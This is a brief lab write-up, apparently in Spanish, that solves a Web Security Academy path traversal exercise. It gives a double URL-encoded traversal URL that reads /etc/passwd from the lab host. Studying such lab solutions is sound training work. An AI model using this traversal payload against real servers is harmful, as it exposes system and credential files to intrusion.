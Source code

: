 ```yaml
---
layout: default
title: 4 - File path traversal, traversal sequences stripped with superfluous URL-decode
---
```

Usamos url encode en unicode:
```
https://0a270054041d129881598e100081000e.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd
```
